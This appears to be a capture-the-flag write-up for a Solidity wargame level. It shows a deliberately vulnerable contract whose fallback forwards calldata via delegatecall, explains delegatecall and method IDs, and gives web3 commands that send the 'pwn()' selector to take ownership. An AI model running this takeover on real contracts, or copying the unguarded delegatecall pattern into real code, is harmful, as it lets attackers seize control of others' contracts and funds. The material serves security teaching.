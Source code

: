 # Challenge 6

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

Challenge
---
> The goal of this level is for you to claim ownership of the instance you are given.

  Things that might help

  - Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
  - Fallback methods
  - Method ids


1. `delegatecall` - `delegatecall` is similar to `call`, is a low level function in `Solidity`. `delegate` meas entrust/represent, so what does `delegatecall`entrust?

When user `A` `delegatecall` contract `C` via contract `B`, the executed functions are from contract `C`, the `execution context` is in contract `B`: `msg.sender` is user `A`'s address, and if state variables are changed due to function call, the affected state variables are in contract `B`.

2. Method Ids - This is derived as the first 4 bytes of the Keccak hash of the ASCII form of the signature functionName() iif any parameter then functionName(ValueType) and if more saprate the by commma.

Solution
---

1. open the terminal and get the `pwn()` for `msg.data`.
```js
await web3.utils.sha3("pwn()");
// you will see this 0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab
```

and now copy this hash and 
```js
await contract.sendTransaction({data:"0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab"})
```

after  that check the contract owner()
```js
await contract.owner()
```
You will see your EOA (Externally Owned Account) address and submit the instance your challenge will be cleared. 🎉